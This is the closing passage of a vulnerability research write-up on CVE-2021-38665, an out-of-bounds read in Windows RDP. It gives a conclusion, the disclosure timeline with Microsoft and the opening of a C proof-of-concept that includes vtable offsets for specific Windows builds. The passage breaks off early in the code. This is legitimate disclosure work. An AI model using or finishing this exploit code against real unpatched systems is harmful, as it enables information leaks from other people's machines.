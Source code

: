 # Conclusion

This vulnerability is not necessarily intricate: the core of the bug is just missing null bytes causing an out-of-bounds read. However, the execution makes it more interesting than it should be, and the process of discovering the bug's root cause really shows the unexpected side effects of fuzzing. I believe this latter point is a key component that one should take into account when using fuzzing techniques for vulnerability research.

On a more personal note, for a first experience in vulnerability research, I am glad I was able to find a vulnerability in Windows that led to a CVE and for which I could also provide a reliable proof of concept.

# Disclosure Timeline

* 2021-07-22 --- Sent vulnerability report to MSRC (Microsoft Security Response Center)
* 2021-07-23 --- Microsoft started reviewing and reproducing
* 2021-08-03 --- Microsoft acknowledged the vulnerability and started developing a fix. They also started reviewing this case for a potential bounty award.
* **2021-08-04 --- Microsoft assessed the vulnerability as *Information Disclosure* with *Important* severity. Bounty award: $1,000.**
* 2021-08-13 --- The vulnerability was assigned CVE-2021-38665.
* 2021-11-09 --- Microsoft released the security patch.

# Full Proof-of-Concept source code

```c
/*
Compilation: clang poc.c -o poc.exe -l wsock32 -l wtsapi32 -l advapi32
Run as SYSTEM.
*/

#define _CRT_SECURE_NO_WARNINGS

#include <io.h>
#include <stdlib.h>
#include <stdio.h>
#include <winsock2.h>
#include <winsvc.h>
#include <wtsapi32.h>
#include <windows.h>

#define MAX_VC_WRITE_TRIES 20

#define STATIC_CHANNEL 0
#define DYNAMIC_CHANNEL 1

const unsigned int vtable_offsets[] = {
    // 10.0.19041.844
    0x5c88e0, // const CTSMsg::`vftable`
    0x5c92d8, // const CMemory::`vftable`{for `CImplIUknown<struct IUnknown>`}
    // 10.0.21354.1
    0x62c048, // const CFileRedirector::`vftable'{for `INonDelegatingUnknown'}
    0x62c1b8, // const CTSSyncWaitResult::`vftable'{for `INonDelegatingUnknown'}
    0x62c238, // const CTSMsg::`vftable'{for `CTSObject'}
    0x62dc20, // const CTSPooledUnknown::`vftable'{for `INonDelegatingUnknown'}
    0x62de48  // const CMemory::`vftable'{for `CImplIUnknown<struct IUnknown>'}
};

HANDLE rdp_server;
HANDLE virtual_channel;

void hexdump(char *buffer, int length)
```
